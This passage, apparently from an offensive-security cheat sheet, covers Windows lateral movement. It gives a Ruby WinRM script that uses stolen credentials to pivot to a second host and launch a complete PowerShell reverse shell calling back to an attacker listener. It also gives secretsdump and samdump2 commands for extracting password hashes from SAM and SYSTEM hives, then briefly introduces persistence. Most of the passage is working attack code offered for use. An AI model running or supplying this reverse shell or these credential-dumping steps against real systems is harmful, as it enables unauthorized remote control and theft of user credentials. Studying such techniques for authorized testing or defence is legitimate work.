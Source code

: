 The above script can also further be changed to include executing powershell reverseshell so that other machines would connect back to a listener you may create. #Note For this to work First you need the credentials of the first pivoted machine \[10.10.10.5] to establish the \[winrm] connection. Second, you need the credentials of the other pivoted machine. The below script when executed will connect back to another listner you run on your machine.

```powershell
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'https://ip:port/wsman',
  transport: :ssl,
  user: 'username',
  password: 'pass',
  :no_ssl_peer_verification => true
)

conn.shell(:powershell) do |shell|
  output = shell.run("$pass = convertto-securestring -AsPlainText -Force -String 'pass'; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist 'test.local\\username',$pass; Invoke-Command -ComputerName machine.test.local -Credential $cred -Port 5985 -ScriptBlock {$client = New-Object System.Net.Sockets.TCPClient('your-ip',port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close(); }") do |stdout, stderr|
    STDOUT.print stdout
    STDERR.print stderr
  end
  puts "The script exited with exit code #{output.exitcode}"
end
```

#### Extracting passwords from SAM and SYSTEM

\[1] With impacket tools

```
secretsdump.py -sam SAM -security SECURITY -system SYSTEM LOCAL
```

\[2] With `sampdump2`

```
samdump2 ./SYSTEM ./SAM
```

### Windows Persistence

Persistence is a method to maintain your access in case the target machine reboots/shuts down or even if you need to log out and disconnect from the shell. Many of what we discussed above in the post exploitation section can be used to achieve persistence. For example, when you extract password hashes of the system users or create new users, you can use them log in later thus you have created/established persistent access.
